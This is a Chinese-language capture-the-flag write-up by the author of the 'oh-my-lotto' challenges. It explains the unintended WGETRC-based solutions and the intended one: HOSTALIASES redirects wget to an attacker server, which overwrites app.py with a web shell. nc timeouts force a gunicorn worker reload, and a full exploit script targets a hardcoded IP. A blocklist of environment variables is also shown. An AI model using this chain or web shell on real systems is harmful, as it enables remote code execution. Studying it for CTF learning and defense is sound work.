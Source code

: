 # web-oh-my-lotto&revenge-ZH

## 写在前面的话

因为考虑不周全，这个题可能没给师傅们带来比较好的做题体验，实在抱歉，这里想就这个题给师傅们做一些解释。第一个题被非预期以后，在改revenge的时候思考了很多种方式，比如把`WGETRC`放到黑名单里面，或者是给附件用第一个题flag的加锁，但为了不泄露第一个题的解法，最终我还是选择不把`WGETRC`ban掉，只是把获取flag的方式限制为了必须要RCE才能获取，但同时也由于一些权限管理等问题，使得利用`WGETRC`同样可以解决revenge，这里确实是我没考虑周全，但确实也从师傅们的非预期学到了很多东西，下面我将还原一下我已知的非预期和预期解，希望能带给你新的知识。:)

## 非预期解

### oh-my-lotto

* 利用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

* 利用`PATH`，将`lotto_result.txt`保存到其他路径，此时获得的`lotto_result.txt`为`result`，通过上传一个`result`字符串可以获得flag。

### oh-my-lotto-revenge

* 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE。

* 利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE。

## 预期解

根据附件可以在本地搭建题目运行环境，根据源码中`app.py`所述逻辑，当上传的`forecast.txt`文件内容与`lotto_result.txt`文件内容相符时，可以获得flag，lotto容器中生成`lotto_result.txt`使用的是`secrets`库，该库函数使用安全的随机数生成方法，理论上不存在被预测的风险。

发现在进行lotto猜测的时候可以运行输入一次环境变量，该环境变量会被传递给`os.system('wget --content-disposition -N lotto')`，同时环境变量会经过`safe_check`函数检查

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s:
        return False
    return True
```

一些常见的环境变量利用方法都已经被禁止，通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```
同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下


```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
